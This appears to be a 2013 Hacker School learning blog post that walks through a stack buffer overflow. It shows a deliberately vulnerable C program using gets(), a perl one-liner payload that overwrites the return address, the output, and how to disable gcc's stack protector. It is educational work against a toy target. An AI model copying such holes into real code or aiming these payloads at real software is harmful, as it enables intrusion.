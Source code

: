 ```yaml
---
layout: post
title: "Day 17: How to write a buffer overflow exploit"
date: 2013-10-28 23:08
comments: true
categories: hackerschool coding
---
```


I've declared this week to be the week of networks & security.

Today I started reading the excellent book 
[Hacking: The Art of Exploitation](http://nostarch.com/hacking2.htm)
by Jon Erickson. I learned a lot about how different parts and how MAC address
spoofing actually works.

But! Buffer overflows! I worked with Travis and Daphne today and we made one
work!

Okay. Here is a program with a vulnerability, made extra easy to exploit:

~~~
#include <stdio.h>
#include <string.h>

char password[] = "super_secret";

void foo(void) {
  printf("You hacked me! Here is the secret password: %s\n", password);
  fflush(stdout);
}

int main(int argc, char *argv[]) {
  char buf[4];

  printf("Here is the address of foo: %p\nWhat is your hacking text? ", foo);
  fflush(stdout);

  gets(buf);

  printf("You entered: %s\n", buf);
  fflush(stdout);

  return 0;
}
~~~

The idea is that we're going to put a string, then make the program jump to
the address of `foo` instead of returning. I couldn't get this to work on my
64-bit machine for some reason, so I told it to be 32-bit instead and it
worked. <s>If you know why please tell me!</s> <small>(*Edit:* Figured this out! Turns out I
just needed to pad the address with 0s until it was 64 bits and then
experiment with offsets.)</small>

~~~
$ gcc -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x80484b4
What is your hacking text? You entered: aaaa���
*** stack smashing detected ***: ./a.out terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0xf7663eb5]
/lib/i386-linux-gnu/libc.so.6(+0x104e6a)[0xf7663e6a]
./a.out[0x8048561]
/lib/i386-linux-gnu/libc.so.6(__libc_start_main+0xf3)[0xf75784d3]
./a.out[0x8048421]
~~~

Oh look! It turns out that gcc already knows about this exploit and has special built-in protections! We can disable those, though...

~~~
$ gcc -fno-stack-protector -m32 test.c -o test
$ perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' | ./test
Here is the address of foo: 0x8048464
What is your hacking text? You entered: aaaadddd�
You hacked me! Here is the secret password: super_secret
[1]    26357 done                              perl -e 'print "aaaa" . "\x64\x84\x04\x08" x 4' |
 
       26358 segmentation fault (core dumped)  ./a.out
~~~

BOOM. We win!

What happened here? At the end of the stack, there's the address that the
function needs to jump back to when it returns. Since `gets` doesn't know how
many characters to read into buf, it keeps reading into the stack until the
string is over and writes over that address. We don't know exactly where the
address is, so we keep writing it over and over and over again until it works.

Also! Notice how we had to reverse the order of the memory address to be
`"\x64\x84\x04\x08"` instead of `\x08\x04\x84\x64`. This is because memory is
laid out in a little-endian way. "Little-endian" basically means "backwards".
Intel architectures are always like this. See [wikipedia](http://en.wikipedia.org/wiki/Endianness) for more on endianness. 

<s>There are smarter ways to deal with this issue of not knowing where the end of
the stack is ("NOP sleds"!), but this one is simpler and so it is what we did.</s>

Filippo pointed out to me that NOP sleds are actually something you use in
shellcode when you're not sure where the program execution will start. In this
case I think you actually just have to figure out where the return address is.
I think you can also use gdb or objdump to discover the layout of the stack,
but I don't know how to do that yet.
